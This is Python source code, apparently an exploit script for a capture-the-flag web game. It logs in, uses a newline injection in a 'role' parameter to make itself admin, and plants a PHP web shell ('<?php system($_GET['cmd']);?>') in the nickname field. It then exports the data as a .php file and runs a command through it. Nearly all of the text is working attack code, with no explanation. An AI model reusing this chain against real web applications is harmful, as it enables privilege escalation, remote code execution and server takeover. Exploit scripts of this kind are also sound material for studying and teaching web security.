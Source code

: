 ```python
    r = httpPost( '/authenticate.php', payload)

    assert r.status_code == 302
    assert r.headers['Location'] == "/index.php" or r.headers['Location'] == "/login.php?err=Authentication Failed"
    return r

# ---------------------------------------------------------
def commandSaveGame():
    print("[ ] Save Game: set role as admin + nickname")
    assert SessionCookie != None

    payload="<?php system($_GET['cmd']);?>"
    url = '/save_game.php?clicks=13371337&level=666&role%0a=Admin&nickname='+ urllib.parse.quote( payload)

    r = httpGet(url)
    assert r.status_code == 302
    assert r.headers['Location'] == "/index.php?msg=Game has been saved!"
    return r

# ---------------------------------------------------------
def commandRequestExport():
    print("[ ] request export")

    assert SessionCookie != None
    
    payload={'threshold': 1,'extension':'php'}

    r = httpPost('/export.php', payload )

    assert r.status_code == 302
    assert r.headers['Location'].startswith("/admin.php?msg=Data has been saved in exports/")
    assert r.headers['Location'].endswith(".php")

    return r

# ---------------------------------------------------------
def commandGetExport( ExportFile ):
    print("[ ] reading export")

    url = '/' + ExportFile + '?cmd=id'

    r = httpGet(url)

    assert r.status_code == 200

    return r

# Try to login
r = commandLogin()
if r.headers['Location'].endswith("Authentication Failed"):
    print( "[ ] login failed, try to create user first" )
    r = commandCreatePlayer()
    # re-login, it should be fine now
    r = commandLogin()

# ensure login is successfull
assert r.headers['Location'] == "/index.php"
# save cooky value
SessionCookie = {'PHPSESSID': requests.utils.dict_from_cookiejar(r.cookies)['PHPSESSID']}
print ( "[ ] Session Cookie: " + str(SessionCookie) )

```